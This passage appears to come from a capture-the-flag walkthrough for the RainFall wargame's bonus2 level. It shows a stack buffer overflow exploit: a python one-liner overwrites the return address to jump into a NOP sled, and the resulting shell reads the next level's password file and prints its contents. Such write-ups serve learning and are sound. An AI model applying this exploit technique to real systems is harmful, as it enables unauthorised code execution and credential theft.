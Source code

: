 Finally, we find the stack address of our variable thanks to GDB and Peda, then add 16 to it in order to jump somewhere in the NOP sled. We can now execute the buffer overflow attack by providing the appropriate parameters to the executable.

```console
bonus2@RainFall:~$ ./bonus2 `python -c 'print "A"*40 + " " + "A"*23 + "\xe9\xf8\xff\xbf"'`
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```